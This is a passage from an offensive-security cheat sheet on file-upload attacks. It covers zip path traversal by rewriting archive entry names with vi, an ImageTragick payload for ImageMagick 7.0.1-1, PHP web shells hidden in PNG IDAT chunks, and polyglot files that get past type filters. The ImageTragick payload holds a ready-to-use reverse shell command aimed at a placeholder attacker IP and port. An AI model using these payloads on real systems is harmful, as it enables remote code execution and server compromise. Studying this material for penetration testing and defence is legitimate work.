 3.  **Modification with a Hex Editor or vi**: The names of the files inside the zip are altered using vi or a hex editor, changing "xxA" to "../" to traverse directories.

    ```bash
    :set modifiable
    :%s/xxA/..\//g
    :x!
    ```

## ImageTragic

Upload this content with an image extension to exploit the vulnerability **(ImageMagick , 7.0.1-1)** (form the [exploit](https://www.exploit-db.com/exploits/39767))

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
pop graphic-context
```

## Embedding PHP Shell on PNG

Embedding a PHP shell in the IDAT chunk of a PNG file can effectively bypass certain image processing operations. The functions `imagecopyresized` and `imagecopyresampled` from PHP-GD are particularly relevant in this context, as they are commonly used for resizing and resampling images, respectively. The ability of the embedded PHP shell to remain unaffected by these operations is a significant advantage for certain use cases.

A detailed exploration of this technique, including its methodology and potential applications, is provided in the following article: ["Encoding Web Shells in PNG IDAT chunks"](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/). This resource offers a comprehensive understanding of the process and its implications.

More information in: [https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)

## Polyglot Files

Polyglot files serve as a unique tool in cybersecurity, acting as chameleons that can validly exist in multiple file formats simultaneously. An intriguing example is a [GIFAR](https://en.wikipedia.org/wiki/Gifar), a hybrid that functions both as a GIF and a RAR archive. Such files aren't limited to this pairing; combinations like GIF and JS or PPT and JS are also feasible.

The core utility of polyglot files lies in their capacity to circumvent security measures that screen files based on type. Common practice in various applications entails permitting only certain file types for upload—like JPEG, GIF, or DOC—to mitigate the risk posed by potentially harmful formats (e.g., JS, PHP, or Phar files). However, a polyglot, by conforming to the structural criteria of multiple file types, can stealthily bypass these restrictions.

Despite their adaptability, polyglots do encounter limitations. For instance, while a polyglot might simultaneously embody a PHAR file (PHp ARchive) and a JPEG, the success of its upload might hinge on the platform's file extension policies. If the system is stringent about allowable extensions, the mere structural duality of a polyglot may not suffice to guarantee its upload.
